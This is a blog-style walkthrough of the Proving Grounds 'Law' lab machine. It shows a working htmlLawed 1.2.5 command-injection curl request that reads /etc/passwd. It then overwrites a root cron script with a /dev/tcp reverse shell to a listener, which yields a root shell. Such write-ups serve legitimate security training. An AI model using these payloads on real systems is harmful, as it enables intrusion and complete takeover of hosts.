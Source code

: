 ```yaml
---
date: '2025-03-15'
before : '2025-03-11'
after : '2025-03-16'
title: 'Proving Grounds : Law'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Law machine from Proving Grounds'
thumbnail: '../contentImages/law/3.png'
---
```


## 1. Initial Scan

```
Host is up (0.042s latency). 
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.37 seconds
           Raw packets sent: 65583 (2.886MB) | Rcvd: 65551 (2.624MB)
```

Nothing Special. Let's visit the web application.

## 2. Initial Foothold

As I visited port 80:

![image](../contentImages/law/3.png)

So it somehow seems to be an RCE case.
As I searched for cve, this popped up.

```
┌──(root㉿kali)-[/home/hlee]
└─# searchsploit htmlLawed
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
htmlLawed 1.2.5 - Remote Code Execution (RCE)                                    | php/webapps/52023.sh
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Hm okay.

The script itself didn't really work. So I tried to do it manually using the information from script.

```
┌──(hlee㉿kali)-[~]                                                                                                 
└─$ curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://192.168.205.190 |egrep '\&nbsp; \[[0-9]
+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/' 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin

```

Now I tried simple revshell. Remember, base64 encoding is faster than trying random binaries.

![image](../contentImages/law/4.png)

Got it. I'm logged in as a non-admin user.

## 2. Privilege Escalation

As I ran `linpeas.sh` I found some suspicious binaries, one of them was cleanup.sh which surely looks suspicious.

```
/var/cache/apache2/mod_cache_disk                                                                                   
/var/lib/php/sessions                                                                                               
/var/tmp                                                                                                            
/var/www/cleanup.sh                                                                                                 
/var/www/html           
```

I also ran pspy64:
```
2025/03/04 15:21:52 CMD: UID=0    PID=1      | /sbin/init 
2025/03/04 15:22:01 CMD: UID=0    PID=15355  | /usr/sbin/CRON -f 
2025/03/04 15:22:01 CMD: UID=0    PID=15357  | /usr/sbin/CRON -f 
2025/03/04 15:22:01 CMD: UID=0    PID=15358  | /bin/bash /var/www/cleanup.sh 
```

We can see that the root user is running the cleanup.sh!


Since the account I have had a write permission, I could modify the cleanup.sh. 
```
www-data@law:/var/www$ echo 'sh -i >& /dev/tcp/192.168.45.221/443 0>&1' > cleanup.sh                                
<i >& /dev/tcp/192.168.45.221/443 0>&1' >> cleanup.sh  
```
Then I waited calmly til the modified script get executed by cronjob.

```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.221] from (UNKNOWN) [192.168.205.190] 42046
sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Done! Pretty straight-forward. But again, understanding CVE is important.

---
## Source

- Me!

